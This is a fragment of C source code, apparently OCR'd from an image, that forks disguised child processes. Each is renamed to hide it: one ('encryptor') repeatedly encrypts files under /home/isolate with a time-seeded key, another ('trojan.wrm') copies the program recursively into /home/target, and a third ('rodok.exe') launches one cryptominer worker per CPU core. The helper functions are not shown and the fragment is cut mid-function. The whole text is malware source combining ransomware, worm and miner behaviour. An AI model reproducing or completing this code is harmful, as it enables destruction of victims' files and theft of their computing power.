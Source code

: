 ```C
    if (child < 0) exit(EXIT_FAILURE);
    if (child == 0) {
        prctl(PR_SET_NAME, "encryptor", 0, 0, 0);

        if (argc > 0) {
            size_t len = 64;
            memset(argv[0], 0, len);
            strncpy(argv[0], "encryptor", len);
        }

        unsigned int key = (unsigned int)time(NULL);
        while (1) {
            encrypt("/home/isolate", key);
            sleep(30);
        }
        exit(EXIT_SUCCESS);
    }
}

void child_2(int argc, char **argv) {
    pid_t child = fork();
    if (child < 0) exit(EXIT_FAILURE);
    if (child == 0) {
        prctl(PR_SET_NAME, "trojan.wrm", 0, 0, 0);

        if (argc > 0) {
            size_t len = 64;
            memset(argv[0], 0, len);
            strncpy(argv[0], "trojan.wrm", len);
        }

        while (1) {
            copy_self_recursive("/home/target");
            sleep(30);
        }
        exit(EXIT_SUCCESS);
    }
}

void child_3(int argc, char **argv) {
    pid_t rodok = fork();
    if (rodok < 0) exit(EXIT_FAILURE);
    if (rodok == 0) {
        prctl(PR_SET_NAME, "rodok.exe", 0, 0, 0);

        if (argc > 0) {
            size_t len = 64;
            memset(argv[0], 0, len);
            strncpy(argv[0], "rodok.exe", len);
        }

        srand(time(NULL));
        int max_miner = sysconf(_SC_NPROCESSORS_ONLN);
        if (max_miner < 3) max_miner = 3;

        for (int i = 0; i < max_miner; i++) {
            pid_t miner = fork();
            if (miner == 0) {
                mine_worker(i, argc, argv);
                exit(EXIT_SUCCESS);
            }
        }

```
